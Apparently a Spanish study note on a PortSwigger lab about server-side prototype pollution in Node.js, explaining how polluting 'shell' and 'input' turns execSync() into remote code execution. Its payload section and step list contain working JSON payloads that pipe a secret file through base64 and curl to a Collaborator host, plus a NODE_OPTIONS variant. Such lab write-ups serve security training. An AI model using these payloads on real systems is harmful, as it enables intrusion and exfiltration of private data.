

---
aliases:
  - PP 007 - RCE exfil execSync
  - shell input vim
  - NODE_OPTIONS
tags:
  - vuln/prototype-pollution
  - example
  - portswigger
---

# 007 — RCE / exfiltración vía `child_process.execSync()` (`shell` + `input`)

> Lab: [Exfiltrating sensitive data via server-side prototype pollution](https://portswigger.net/web-security/prototype-pollution/server-side/lab-exfiltrating-sensitive-data-via-server-side-prototype-pollution) · **Expert** · → [[vulnerabilities/020-prototype-pollution/prototype-pollution|entry point]]

## Qué muestra
RCE cuando el sink es `child_process.execSync()` / `spawn()` (no `fork()`). Contaminás dos gadgets: `shell` (qué intérprete usar) e `input` (lo que se le manda por `stdin`). Como `shell` **solo acepta el nombre del ejecutable, sin args**, se usa un binario que lea comandos de `stdin` como `vim`/`ex` con `:!`.

## El payload

Exfiltración (objetivo del lab):
```json
"__proto__": {
    "shell": "vim",
    "input": ":! cat /home/carlos/secret | base64 | curl -d @- https://YOUR-COLLABORATOR-ID.oastify.com\n"
}
```

Variante `NODE_OPTIONS` (inyecta args por defecto a procesos Node hijos):
```json
"__proto__": {
    "shell": "node",
    "NODE_OPTIONS": "--inspect=YOUR-COLLABORATOR-ID.oastify.com\"\".oastify\"\".com"
}
```

## Los gadgets

| Gadget | Rol |
| --- | --- |
| `shell` | ejecutable a usar (`vim`, `ex`, `node`) — sin argumentos |
| `input` | texto por `stdin`; con `vim`, `:! <cmd>\n` ejecuta shell |
| `NODE_OPTIONS` | args por defecto de cualquier proceso Node hijo (`--inspect`, `--eval`) |

## Diagrama



## Por qué funciona
Cuando `execSync()` se llama con `options` `undefined`, `shell` e `input` se leen del prototipo contaminado. `vim` acepta comandos de `stdin` y `:!` ejecuta un comando de shell → RCE, y con `curl -d @-` exfiltrás el resultado a Collaborator.

## Cómo explotarlo (paso a paso)
1. Detectá la vuln (`json spaces`) → [[vulnerabilities/020-prototype-pollution/examples/003-server-side-deteccion-a-ciegas|003]].
2. Reconocé el terreno sin destruir: `input` con `ls /home/carlos | base64 | curl -d @- ...`.
3. Contaminá `shell:"vim"` + `input` con el `cat ... | base64 | curl` al Collaborator.
4. Dispará el maintenance job → mirá Collaborator → decodificá base64 → tenés el `secret`.
5. Enviá el secret para resolver el lab.

## Verificación
- Recibís en Collaborator el contenido (base64) de `/home/carlos/secret`.

## Detalles que se pasan por alto
- El `\n` final del `input` es lo que **ejecuta** el `:!` en vim (simula el Enter).
- `shell` no admite argumentos: por eso `vim`/`ex` (leen `stdin`) y no `bash -c`.
- Igual que en `fork()`, confirmá primero con un comando inofensivo antes de tocar nada.

→ Volver al [[vulnerabilities/020-prototype-pollution/prototype-pollution|entry point]] · labs → [[vulnerabilities/020-prototype-pollution/labs/README|labs de Prototype Pollution]]
